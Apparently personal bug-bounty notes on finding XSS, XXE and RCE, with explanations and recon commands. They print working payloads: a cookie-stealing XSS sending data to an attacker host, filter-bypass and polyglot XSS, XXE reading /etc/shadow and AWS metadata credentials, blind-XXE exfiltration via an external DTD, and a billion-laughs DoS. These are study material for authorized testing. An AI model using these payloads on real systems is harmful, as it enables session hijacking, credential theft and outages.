



# <font color="red">XSS</font>
#### 1- check for any value you can control (parameter , path, header, cookie) is being reflected in the **HTML** or used by **JS** code  


##### <font color="red">NOTE</font>:  for testing to find xss instead of splashing different payloads test for these characters and note that which  one of them getrendered directly and which one escapes>'<"//:=;!--
##### <font color="red">NOTE</font>: for bypassing the xss protections you can use <font color="green">1- </font>alternative javascripts <font color="green">2-</font> Capitalization and Encoding <font color="green">3-</font> If the application filters special HTML characters, like single and double quotes, you can’t write any strings into your XSS payload directly. But you could try using the JavaScript fromCharCode() function, which maps numeric codes to the corresponding ASCII characters, to create the string you need. For example, this piece of code is equivalent to the string "http://attacker_server_ip/?c=" like: String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61) for example for a payload this is how it is : _<scrIPT_>location=String.fromCharCode(104, 116, 116, 112, 58, 47,47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;_< /scrIPT_>  for getting the char code of the string you want you can use this code: function ascii(c){return c.charCodeAt();} encoded = "http://attacker_server_ip/?c=".split("").map(ascii); document.write(encoded);<font color="green">4-</font> Filter Logic Errors and ...

#### if <font color="red">reflected</font>: 
####  <font color="red">   in raw HTML : </font>
#####           1- create HTML tag?
#####           2-use events or attribiutes supporting javascript: protocol ?
#####           3- HTML content being interpreted by any client side JS engine (Angular , Vue , Mavo ...)? -> you can abuse  a [CSTI](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti) and [THIS](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

#####           4-bypass protection
#####           5-if can not create tags that excecute JS code , could you abuse [dangling markup](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) 


####     <font color="red">in  HTML tag :</font> 
#####     1-exit the html tag?
#####     2-create new events/attributes to execute JS code?
#####     3-the attr you trapped support JS execution? 
#####     4-bypass protection?
#####     <font color="red">NOTE</font>: If your input is reflected inside "**unexpoitable tags**" you could try the `**accesskey**` trick to abuse the vuln (you will need some kind of social engineer to exploit this): `**" accesskey="x" onclick="alert(1)" x="**`
##### <font color="red">NOTE</font>: in url schemes like href="Javascript:"/src="" you  can use "data:" too. like data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"  this for exampel would execute the alert function (it doesn't need to be base64 ecoded it could be injected as data:text/html,java script payload)
##### <font color="red">NOTE</font>: Anotherway of approaching manual XSS testing is to insert an XSS polyglot, a type of XSS payload that executes in multiple contexts. For example, it will execute regardless of whether it is inserted into an  tag, a script tag, or a generic "p" tag and can bypass some XSS filters.(https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)=>
	javascript:"/*\"/*`/*' /*_</template_>
	_</textarea_>_</noembed_>_</noscript_>_</title_>
	_</style_>_</script_>--_>&lt;svg onload=/*<html/*/onmouseover=alert()//_>

	

####    <font color="red"> in JavaScript code :</font > 
#####     1-escape `<script>` tag?
#####     2-escape string execute your own js code?
#####     3-are your input in template literals \`\`?
#####     4-bypass protection?
#####     <font color="green">NOTE</font>: If reflected between `**<script> [...] </script>**` tags, even if your input if inside any kind of quotes, you can try to inject `</script>` and escape from this context. This works because the **browser will first parse the HTML tags** and then the content, therefore, it won't notice that your injected `</script>` tag is inside the HTML code.

#####    <font color="green"> NOTE</font>: If reflected **inside a JS string** and the last trick isn't working you would need to **exit** the string, **execute** your code and **reconstruct** the JS code (if there is any error, it won't be executed:

#####     <font color="green"> NOTE</font>: If reflected inside template literals you can **embed JS expressions** using `${ ... }` syntax: `` var greetings = `Hello, ${alert(1)}` ``
#####    <font color="green"> NOTE</font>: unicode encode works for writing valid javascript codes
	\u{61}lert(1) \u0061lert(1) \u{0061}lert(1)

####     <font color="red">in JavaScript file being executed :</font>
#####         1-indicate the name of function to execute e.g `?callback=alert(1)`

#####    <font color="green"> NOTE</font>: everal web pages have endpoints that accept as parameter **the name of the function to execute**. firstElementChild
`lastElementChild, nextElementSibiling, lastElementSibiling, parentElement` 
#####     <font color="red"> SOME(Same Origin Method Execution)</font>
######         the attack flow is the following:
######            . Find a **callback that you can abuse** (potentially limited to \[\\w\\._\]).

######             If it's not limited and you can execute any JS, you could just abuse this as a regular XSS
######             . Make the **victim open a page** controlled by the **attacker**
######            . The **page will open itself** in a **different window** (the new window will have the object `**opener**` referencing the initial one)

######             . The **initial page** will load the **page** where the **interesting DOM** is located.
######             . The **second page** will load the **vulnerable page abusing the callback** and using the `**opener**` object to **access and execute some action in the initial page** (which now contains the interesting DOM).

#### if <font color="red">DOM </font> :

for domxss check this link out :
- [ ] https://github.com/wisec/domxsswiki/wiki
training :
- [ ] https://domgo.at/cxss/intro


#### if <font color="red">Stored</font> : 

### <font color="red">Mutation XSS</font> :
#### mXSS attacks are possible against all major browsers today. They rely on developing a deep understanding of methods by which the browser performs optimizations and conditionals when rendering DOM nodes.

#### mXSS functions by making use of filter-safe payloads that eventually mutate into unsafe payloads after they have passed filtration.

#### for example in DOMPurify library which google used for securing against xss attacks if you used the payload :
	<noscript><p title="</noscript>">
#### it would turn to :
	<noscript><p title=" </noscript>
	`
	"">
	"
#### The reason this happened is because DOMPurify uses a root element `<template`> in its sanitization process. The `<template`> tag is parsed but not rendered, so it is ideal for use in sanitization.

#### Inside of a `<template`> tag, element scripting is disabled. When scripting is disabled, the `<noscript`> tag represents its children elements, but when scripting is enabled it does nothing.

#### In other words, the img onerror is not capable of script execution inside of the sani‐tizer, but when it passed sanitization and moved to a real browser environment the 
`<p title=" 
#### was ignored and the img onerror became valid.

#### <font color="red">XSS through File uplaod</font>:

XSS through svg file : since svg files can contain JavaScript, we use the following payload:

payload:
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "www.
w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="www.w3.
org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill=
"#009900" stroke="#004400"/>
<script type="text/javascript">
alert(document.domain);
</script>
</svg>
```

XSS through METADATA :

## <font color="red"> Haunt</font>:
#### you can use <font color="red"> GAU</font> for finding the endpoints And use <font color="red">KATANA</font> crawler for spidering the site and finding more useful endpoints.
	echo "example.com" | gau  --threads 5 >> endpoints.txt
#### or 
	echo "example.com" | katana -jc >> endpoints.txt
#### using the tool  <font color="red">URO</font > you can filter uninterested/duplicate content from the endpoints gathered
	cat endpoints.txt | uro >> endpoints-f.txt
#### then using <font color="red"> gf </font> we can grab the patterns sus to xss
	cat Endpoints-f.txt | gf xss >> XSS.txt
#### then using <font color="red">Gxss </font>tool for finding parameters whose values are reflected in the response
	cat XSS.txt | Gxss -p khXSS -o Xss_Ref.txt
#### here we have two options either use manual testing or use an xss automation tool and confirm the result mannually (for automation we can use the tool called <font color="red">dalfox</font>)
	dalfox file Xss_Ref.txt -o vulnerable_xss.txt

#### for checking all paths find at once automatically you could use :
```
echo "example.com" | gau | gf xss | qsreplace '<xss' | httpx -mr '<xss'
```

#### for endpoint discovery using burp suite you could use the `Engagement tools > discovery content > Control > sessino is running ` then after content discovery you can right click on the target then `Engagement tools > Analyze target > Dynamic urls ` by copying all those urls and paste it into a file 
#### sometimes the vulnerable endpoint could be in the static urls (remember bio)

#### after getting the paths for deduplicating the urls you could use the tool <font color="red">uddup</font>


//36 S4-2


### <font color="red"> Angular (without html )</font >:
#### <font color="red">Note:</font > Angular expressions can't do much harm on their own, but when combined with a sandbox escape we can execute arbitrary JavaScript and do some serious damage.
#### The following two snippets show the essence of the vulnerability. The first page dynamically embeds user input, but is not vulnerable to XSS because it uses htmlspecialchars to HTML encode the input:
	<html>  
	<body>  
	<p>  
	<?php  
	$q = $_GET['q'];  
	echo htmlspecialchars($q,ENT_QUOTES);  
	?>  
	</p>  
	</body>  
	</html>
#### The second page is almost identical, but the Angular import means it can be exploited by injecting an Angular expression, and with a sandbox escape we can get XSS.
	<html ng-app>  
	<head>  
	<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.7/angular.js"></script>  
	</head>  
	<body>  
	<p>  
	<?php  
	$q = $_GET['q'];  
	echo htmlspecialchars($q,ENT_QUOTES);?>  
	</p>    
	</body>  
	</html>
#### <font color="red">SandBox</font>:
#### Angular expressions are sandboxed 'to maintain a proper separation of application responsibilities'
... [for more](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)

#### <font color="red">Uppercase Issue</font>
##### While participating in a bug bounty program on Bugcrowd, I stumbled upon a rather interesting scenario where injected code was being converted to uppercase, making every javascript code or function invalid. You might wonder does this situation applies to me? To clarify, here's the scenario I encountered:

##### I could inject javascript but with uppercase and special characters like single quote ', plus/minus sign +/-, brackets [](), equal sign =, exclamation mark ! and semi-colon ; etc. So these were all the things that I could use to craft a payload and bypass this weird XSS uppercase issue.

**Optimized Payload (Edge/Chrome/Firefox):** `A=![]+''B=!![]+''C=[][[]]+''F=[][C[4]+C[5]+A[2]+B[0]+A[4]+B[1]];D=F+''F[D[3]+D[6]+C[1]+A[3]+B[0]+B[1]+C[0]+D[3]+B[0]+D[6]+B[1]](A[1]+A[2]+A[4]+B[1]+B[0]+'(1)')()`

note: Please URL encode the payload before injecting or the (+) used for concatenation would be interpreted as space.

**Encoded Payload:** `A=![]%2B''B=!![]%2B''C=[][[]]%2B''F=[][C[4]%2BC[5]%2BA[2]%2BB[0]%2BA[4]%2BB[1]];D=F%2B''F[D[3]%2BD[6]%2BC[1]%2BA[3]%2BB[0]%2BB[1]%2BC[0]%2BD[3]%2BB[0]%2BD[6]%2BB[1]](A[1]%2BA[2]%2BA[4]%2BB[1]%2BB[0]%2B'(1)')()`


## <font color="GREEN"> TO READ </font>
### <font color="orange">LINKS:</font>
- [ ] https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
- [ ] https://infosecwriteups.com/how-i-found-multiple-xss-vulnerabilities-using-unknown-techniques-74f8e705ea0d
- [ ] https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/
- [ ]  https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting 
- [ ]  https://portswigger.net/research/dom-based-angularjs-sandbox-escapes#indirectcall 
- [x] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/debugging-client-side-js
- [x] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/js-hoisting
- [x] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution
- [ ] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss
 ** stored xss on pdf viewer:
 - [ ] https://medium.com/@osamaavvan/stored-xss-in-pdf-viewer-9cc5b955de2b 

# <font color="red">RCE</font>

#### RCE in Node.js

In Node.js, functions such as exec and spawn from the child_process module
are critical.
some functions like exec 

#### RCE in Flask Application
imilar to Node.js, there are several functions in Python that can be used
to dynamically execute code. This includes `eval()`,` exec()`, `pickle.loads()`,
`os.system()`, `os.popen()`, and many others.


# <font color="red" >XXE</font>

## <font color="red">Mechanism</font>:
#### Extensible markup language is designed for storing and transporting data.
#### This classification of attack relies on an improperly configured XML parser within an application’s code.

#### <font color="green">NOTE </font>: almost all xxe attack vulnerabilities are found as a result of an API endpoint that accepts an xml (or xml like ) payload. xml like formats include SVG, HTML, DOM, PDF(XFDF), and RTF.


#### XML documents can contain a document type definition (DTD), which defines the structure of an XML document and the data it contains. These DTDs can be loaded from external sources or declared in the document itself within a DOCTYPE tag. For example, here is a DTD that defines an XML entity called file:
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file "Hello!">
	]>
	<example>&file;</example>

#### XML documents can also use external entities to access either local or remote content with a URL. If an entity’s value is preceded by a SYSTEM keyword, the entity is an external entity, and its value will be loaded from the URL. You can see here that the following DTD declares an external entity named file, and the value of file is the contents of file:///example.txt on the local filesystem:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "file:///example.txt">
	]>
	<example>&file;</example>
#### The issue is hat if users can control the values of XML entities or external entities, they might be able to disclose internal files, port-scan internal machines, or launch DoS attacks.

#### <font color="green">NOTE </font>: Sometimes an xxe attack can be used against an endpoint that does not directly operate on a user-submitted xml object.


### <font color="red">Prevention</font>:
#### The mechanisms for disabling DTD processing and configuring parser behavior vary based on the XML parser in use. For example, if you’re using the default PHP XML parser, you need to set libxml_disable_entity _loader to TRUE to disable the use of external entities. 

### <font color="red">Haunt</font>:

#### <font color="red">Step 1- Find XML Data Entry Points </font> Keep an eye out for encoded XML data in the application as well. Sometimes applications use base64- or URL-encoded XML data for ease of transportation. You can find these XML entry points by decoding any blocks of data that look suspicious. For example, a base64-encoded block of XML code tends to start with LD94bWw, which is the base64-encoded string of `"<?xml".`

#### Besides searching for XML within HTTP messages, you should also look for file-upload features.

#### <font color="red">Step 2- Test for Classic XXE</font> If the application is returning results from the parser, you might be able to carry out a classic XXE attack—that is, you can read the leaked files directly from the server’s response. To search for classic XXEs, first check whether XML entities are interpreted by inserting XML entities into the XML input and see if it loads properly:

	
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test SYSTEM "Hello!">
	]>
	<example>&test;</example>

#### Then, test whether the SYSTEM keyword is usable by trying to load a local file:
	
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test SYSTEM "file:///etc/hostname">
	]>
	<example>&test;</example>
#### When the SYSTEM keyword does not work, you can replace it with the PUBLIC keyword instead. This tag requires you to supply an ID surrounded by quotes after the PUBLIC keyword. The parser uses this to generate an alternate URL for the value of the entity. For our purposes, you can just use a random string in its place:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test PUBLIC "abc" "file:///etc/hostname">
	]>
	<example>&test;</example>
#### Next, try to extract some common system files. You can start with the files /etc/hostname and /etc/passwd, for example. Another file I like to extract using XXEs is .bash_history

#### <font color="red">Test fonr Blind XXE</font > If the server takes XML input but does not return the XML document in an HTTP response, you can test for a blind XXE instead. Instead of reading files from the server’s response, most blind XXE attacks steal data by having the target server make a request to the attacker’s server with the exfiltrated information.


#### First, you need to make sure that the server can make outbound connections by having the target make a request to your server.

#### The process for setting up a listener to discover XXEs is the same as setting up to find SSRFs. Try making an external entity load a resource on your machine. To bypass common firewall restrictions, you should test with ports 80 and 443 first, because the target’s firewall might not allow outbound connections on other ports:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
	]>
	<example>&test;</example>
#### <font color="red">Step 4- Embed XXE Payloads In Different file types</font> To embed an XXE payload in an SVG image, you need to first open up the image as a text file. Take this SVG image of a blue circle, for example:

	<svg width="500" height="500">
	<circle cx="50" cy="50" r="40" fill="blue" />
	</svg>
#### Insert the XXE payload by adding a DTD directly into the file and referencing the external entity in the SVG image. You can then save the file as an .svg file and upload it to the server:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test SYSTEM "file:///etc/shadow">
	]>
	<svg width="500" height="500">
	<circle cx="50" cy="50" r="40" fill="blue" />
	<text font-size="16" x="0" y="16">&test;</text>
	</svg>


#### <font color="red">Step 5- Test for XInclude Attacks </font>: Sometimes you cannot control the entire XML document or edit the DTD of an XML document. But you can still exploit an XXE vulnerability if the target application takes your user input and inserts it into XML documents on the backend.
#### Include is a special XML feature that builds a separate XML document froma single XML tag named xi:include. If you can control even a single piece of unsanitized data passed into an XML document, you might be able to place an XInclude attack within that value.

#### To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:
	
	<example xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="text" href="file:///etc/hostname"/>
	</example>


## <font color="red">Escalating the attack</font >:
#### What you can achieve with an XXE vulnerability depends on the permissions given to the XML parser. 

#### you can use XXEs to access and exfiltrate system files, source code, and directory listings on the local machine.

#### ou canalso use XXEs to perform SSRF attacks to port-scan the target’s network, read files on the network, and access resources that are hidden behind a firewall.
#### and some attackers use XXE to launch Dos attacks

### <font color="red">Reading File </font>:
#### To read local files by using an XXE vulnerability, place the local file’s path into the DTD of the parsed XML file. Local files can be accessed by using the file:// URL scheme followed by the file’s path on the machine. This payload will make the XML parser return the contents of the /etc/shadow file on the server:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "file:///etc/shadow">
	]>
	<example>&file;</example>
### <font color="red">Launching an SSRF</font> :

#### Besides retrieving system files, you can use the XXE vulnerability to launch SSRF attacks against the local network. For example, you can launch a port scan by switching out the external entity’s URL with different ports on the target machine. This is similar to the port-scanning technique mentioned in Chapter 13, where you can determine the status of a port by analyzing differences in the server’s responses:
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "http://10.0.0.1:80">
	]>
	<example>&file;</example>
#### You can also use an XXE to launch an SSRF to pull instance metadata, as we talked about in Chapter 13. This payload will make the parser return AWS metadata:
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
	]>
	<example>&file;</example>

#### <font color="red">Using Blind XXEs</font>: 

#### Sometimes the application does not return the results of XML parsing to the user. In this case, you can still exfiltrate data to a server that you control by forcing the XML parser to make an external request with the desired data in the request URL—the blind XXE attacks mentioned earlier. Then you can monitor your server logs to retrieve the exfiltrated data. At this point, you might think the payload of a blind XXE looks like this:
	
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "file:///etc/shadow">
	<!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">
	]>
	<example>&exfiltrate;</example>

#### this attack probably would not work , because most parsers do not allow external entities to be included in other external entity , and parser would stop processing the DTD once they encounter this line : `<!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">` . So exfiltering data by using a blind xxe is a bit more complicated than classic xxe.
#### Fortunately, XML DTDs have a feature called parameter entities that we can use instead.` Parameter entities are XML entities that can be referenced only elsewhere within the DTD.hey are declared and referenced with a percent (%) character.`
#### The blind XXE Payload mentioned earlier could be re written like this :

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % file SYSTEM "file:///etc/shadow"> 
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>"> 
	%ent;
	%exfiltrate;
	]>
#### This DTD first declares a parameter entity called file that contains the file contents of /etc/shadow 1. Then it declares a parameter entity named ent that contains a dynamic declaration of another parameter entity called exfiltrate 2. &#x25; is the hex-encoded version of the percent sign (%).
#### Depending on your target, hex encoding is sometimes needed for special characters within dynamic declarations. The exfiltrate entity points to the attacker’s server with the contents of /etc/shadow in the URL parameter.
#### Finally, the DTD references ent to declare the exfiltrate entity and then references exfiltrate to trigger the outbound request.

#### But if you try to upload this payload to a target, you might notice that it does not work. This is because, according to XML specifications, parameter entities are treated differently in inline DTDs (DTDs within the XML document specified within the DOCTYPE tag) and external DTDs (a separate DTD hosted elsewhere). Within inline DTDs, parameter entities cannot be referenced within markups, so this line wouldn’t work: `<!ENTITY &#x25; exfiltrate`SYSTEM 'http://attacker_server/?%file;'>, whereas in external DTDs, no such restriction exists.
#### To exfiltrate data via a blind XXE, you have to overcome this restriction by hosting an external DTD on your server. Try hosting a file named xxe.dtd on your server:

	<!ENTITY % file SYSTEM "file:///etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
	%ent;
	%exfiltrate;
	
#### then make the target parser interpret your DTD by specifying it within a parameter entity and refrencing that entity.

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
	%xxe;
	]>
#### his way, the target server will parse the submitted XML file and notice that a parameter entity is referencing an external file. Then the target server will retrieve and parse that external DTD, so your payload will execute, and the target will send the exfiltrated data back to your server. Here, we are exfiltrating the contents of the file /etc/shadow as a URL parameter in a request to the attacker’s server.

#### <font color="red">NOTE:</font>Notice that in this attack, we used only parameter entities and did not use external entities at all! If the parser blocks external entities or limits the referencing of entities to protect against XXE, you can use this technique as well. However, this strategy can exfiltrate only a single line of the target file, because the newline character (\n) within target files will interrupt the outbound URL and may even cause the HTTP request to fail.

#### An easier way to exfiltrate data via a blind XXE is by forcing the parser to return a descriptive error message. For example, you can induce a File Not Found error by referencing a nonexistent file as the value of an external entity. Your external DTD can be rewritten as follows:

	<!ENTITY % file SYSTEM "file:///etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
	%ent;
	%error;
#### otice that I included the contents of /etc/shadow in the URL parameter of the nonexistent filepath. Then you can submit the same payload to the target to trigger the attack:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
	%xxe;
	]>

#### This malicious DTD will cause the parser to deliver the desired file contents as a File Not Found error:

	java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
#### <font color="red">Performin Denial of service attack</font>:
#### Another potential way that attackers can exploit XML vulnerabilities is to launch denial-of-service attacks, which disrupt the machine so that legitimate users cannot access its services.
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ELEMENT example ANY>
	<!ENTITY lol "lol">
	<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
	<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
	<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
	<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
	<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
	<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
	<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
	<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
	<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
	]>
	<example>&lol9;</example>
#### This payload embeds entities within entities, causing the XML parser to recursively dereference entities to get to the root entity value lol. Each lol9 entity would be expanded into 10 lol8 values, and each of those would become 10 lol7s, and so on. Eventually, a single lol9 will be expanded into one billion lols. This will overload the memory of the XML parser, potentially causing it to crash.
#### <font color="red">NOTE:</font>XXE data exfiltration becomes more complicated if the parser is hardened against XXE attacks, and if you are trying to read files of specific formats.
#### <font color="red">NOTE</font>: Sometimes you’ll want to exfiltrate files that contain XML special characters, such as angle brackets (<>), quotes (" or '), and the ampersand (&). Accessing these files directly via an XXE would break the syntax of your DTD and interfere with the exfiltration. Thankfully, XML already has a feature that deals with this issue. In an XML file, characters wrapped within CDATA (character data) tags are not seen as special characters. So, for instance, if you’re exfiltrating an XML file, you can rewrite your malicious external DTD as follows:

	1 <!ENTITY % file SYSTEM "file:///passwords.xml">
	2 <!ENTITY % start "<![CDATA[">
	3 <!ENTITY % end "]]>">
	4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
	'http://attacker_server/?%start;%file;%end;'>">
	%ent;
	%exfiltrate;

#### This DTD first declares a parameter entity that points to the file you want to read 1. It also declares two parameter entities containing the strings "<![CDATA[" and "]]>"2 3. Then it constructs an exfiltration URL that will not break the DTD’s syntax by wrapping the file’s contents in a CDATA tag 4. he concatenated exfiltrate entity declaration will become the following:
	<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
#### You can see that our payloads are quickly getting complicated. To prevent accidentally introducing syntax errors to the payload, you can use a tool such as XmlLint (https://xmllint.com/) to ensure that your XML syntax is valid. Finally, send your usual XML payload to the target to execute the attack:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
	%xxe;
	]>
#### Another way of exfiltrating files with special characters is to use a PHP  URL wrapper. If the target is a PHP-based app, PHP wrappers let you convert the desired data into base64 format so you can use it to read XML files or even binary files:
	
	<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
	%ent;
	%exfiltrate;

